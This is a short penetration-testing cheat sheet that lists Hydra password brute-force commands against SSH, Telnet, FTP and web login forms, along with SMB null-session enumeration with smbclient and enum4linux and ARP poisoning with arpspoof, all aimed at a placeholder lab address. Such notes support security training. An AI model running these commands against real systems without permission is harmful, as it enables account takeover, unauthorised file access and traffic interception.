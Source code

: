 ```yaml
---
description: 'SSH, Telnet, RDP, HTTP auth, Windows shares'
---
```


# Network Attacks

## Hydra

### SSH

```text
hydra -L users.txt -P pass.txt 10 10.10.10.10 ssh
```

### Telnet

```text
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### FTP

```text
hydra -L users.txt -P pass.txt ftp://10.10.10.10
```

### POST form login

```text
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt
```

Add`-f` to stop the brute-forcing after finding one valid cred.

* /usr/share/seclists/Passwords/rockyou-10.txt
* /usr/share/seclists/Passwords/rockyou-15.txt The above password lists are recommended to run first before the larger rockyou.txt
* /usr/share/ncrack/minimal.usr for users list.

## Windows Shares using Null Sessions

### Shares Enumeration

```text
nmblookup -A 10.10.10.10
```

### List Shares

```text
smbclient -L //10.10.10.10 -N
```

### Mount Share

```text
smbclient //10.10.10.10/sharename -N
```

### enum4linux

```text
enum4linux -a 10.10.10.10
```

The above command does all the previous ones and gives you more data too except mounting the shares, that you have to implement using smbclient.

## ARP Poisoning

### arpspoof

&lt;interface&gt; == eth0/tap0

```text
arpspoof -i <interface> -t target -r host
```

